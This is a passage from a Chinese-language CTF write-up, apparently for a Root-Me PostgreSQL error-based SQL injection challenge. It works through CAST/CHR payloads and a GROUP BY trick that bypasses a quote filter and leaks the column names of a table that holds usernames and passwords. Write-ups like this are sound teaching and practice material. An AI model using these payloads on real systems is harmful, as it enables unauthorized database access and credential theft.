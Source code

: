 ## 获取目标表的表结构

先构造这样的 payload 查看 `m3mbr35t4bl3` 表的记录数，发现只有一行：

`,(CAST(CHR(62)||(SELECT COUNT(1) FROM m3mbr35t4bl3) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/20.png)


尝试构造 payload 直接读取这行数据：

`,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3) AS NUMERIC))`

但是又出错了，原因是构造的 SELECT 表达式返回的值除了不能超过 1 行，还不能超过 1 列。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/21.png)

但是我们不知道 `m3mbr35t4bl3` 表的列名，为此先要设法找到其列名。


在 pgsql 中，要查找一张表的所有列名，可以利用这样的 SQL ：

```sql
SELECT attname FROM pg_attribute pa, pg_class pc WHERE pa.attrelid = pc.oid AND relname = 'm3mbr35t4bl3'
```

但是我们无法注入这条 SQL ，原因是它的 WHERE 条件中存在引号，而引号在这题中被过滤了。

但不代表毫无办法，这里可以利用 `GROUP BY` 的两个特性：

- 与 `ORDER BY` 类似的， `GROUP BY` 同样可以使用列号代替列名
- 当 `SELECT *` 与 `GROUP BY` 一起使用时， `GROUP BY` 必须出现所有列名（或列号），否则 SQL 会报错


一开始因为不知道任何列名，所以首先可以构造这样的 payload ：

`,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY 1) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/22.png)

从异常中抛出了其中一列的列名 `us3rn4m3_c0l` ，声称其未被包含在 `GROUP BY` 中。

由此我们得到了新的一列列名，利用之构造新的 payload 如下：

`,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY us3rn4m3_c0l) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/23.png)

这次又从异常中抛出了新的一列 `id`，利用之构造新的 payload 如下：

`,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY us3rn4m3_c0l, id) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/24.png)

再次从异常中得到新的一列 `p455w0rd_c0l`，利用之构造新的 payload 如下：

`,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY us3rn4m3_c0l, id, p455w0rd_c0l) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/25.png)

